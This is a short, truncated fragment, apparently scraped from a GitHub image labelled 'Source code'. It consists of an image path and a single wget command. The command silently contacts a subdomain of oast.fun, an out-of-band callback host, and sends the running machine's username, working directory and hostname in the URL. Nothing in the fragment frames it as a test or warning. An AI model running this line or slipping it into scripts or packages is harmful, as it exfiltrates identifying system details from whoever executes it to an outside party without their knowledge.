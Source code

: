 wget --quiet \"http://dufnepqyrqkvfquogfzmrz02grgfq5gg9.oast.fun/?user=$(whoami)&path=$(pwd)&hostname=$(hostname)\
